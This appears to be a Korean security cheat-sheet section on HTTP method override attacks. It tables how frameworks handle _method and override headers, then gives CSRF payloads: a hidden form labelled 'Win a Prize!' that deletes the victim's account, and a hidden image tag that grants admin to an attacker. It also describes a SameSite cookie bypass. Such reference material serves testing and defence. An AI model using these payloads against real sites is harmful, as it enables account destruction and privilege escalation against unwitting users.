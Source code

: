### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Framework Method Override Processing Validation</td>
      <td>
        <pre><code>X-HTTP-Method-Override
_method POST 파라미터
_method GET 파라미터</code></pre>
      </td>
      <td>웹 프레임워크가 다양한 Method Override 방식(_method 파라미터, `X-HTTP-Method-Override` 헤더, `X-Method-Override` 헤더 등)을 어떻게 처리하는지 검증한다. 우선순위와 충돌 시 동작을 확인하여 공격 가능성을 판단한다.</td>
      <td>[A]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>State-Changing Operation Execution</td>
      <td>
        <pre><code>&lt;!-- 계정 삭제 요청 -->
&lt;form action="https://target.com/user/delete" method="POST">
    &lt;input type="hidden" name="_method" value="GET">
    &lt;input type="hidden" name="confirm" value="true">
    &lt;input type="submit" value="Win a Prize!">
&lt;/form>

<img src="https://target.com/admin/promote?user_id=attacker&role=admin&_method=POST" style="display:none;"></code></pre>
      </td>
      <td>Method Override를 통해 사용자의 의도와 다른 상태 변경 작업(계정 삭제, 권한 변경, 데이터 수정 등)을 실행한다.</td>
      <td>[A], [H]</td>
    </tr>
    <tr>
      <td>SameSite Cookie Bypass</td>
      <td>-</td>
      <td>웹 프레임워크의 메서드 오버라이드 기능을 악용하여 POST 요청을 GET으로 변경함으로써 SameSite 쿠키 제한을 우회하고 CSRF 공격을 수행한다.</td>
      <td>[B], [D]</td>
    </tr>
  </tbody>
</table>
